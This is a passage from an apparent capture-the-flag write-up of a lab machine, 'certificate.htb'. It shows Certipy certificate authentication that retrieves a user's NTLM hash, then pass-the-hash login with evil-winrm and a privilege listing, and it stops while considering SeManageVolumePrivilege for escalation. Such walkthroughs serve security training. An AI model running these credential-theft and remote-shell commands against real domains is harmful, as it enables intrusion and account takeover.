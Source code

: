 What are we waiting for now, let’s simply authenticate to the target user using the certificate generated.

```powershell
┌──(certipy-env)─(sanke㉿vbox)-[~/Downloads/certificate]
└─$ certipy auth -pfx ryan.k.pfx -username ryan.k -domain certificate.htb -dc-ip 10.10.11.71
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6

```

We have the NTLM hash, so simply let’s access the shell and find our next escalation.

```powershell
┌──(certipy-env)─(sanke㉿vbox)-[~/Downloads/certificate]
└─$ evil-winrm  -i 10.10.11.71 -u ryan.k -H 'b1bc3d70e70f4f36b1509a65ae1a2ae6'                                               
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled

```

As you see in the output, there was something interesting about the “SeManageVolumePrivilege” and of course I searched for its meaning and what is capable to do when i take advantage of it.
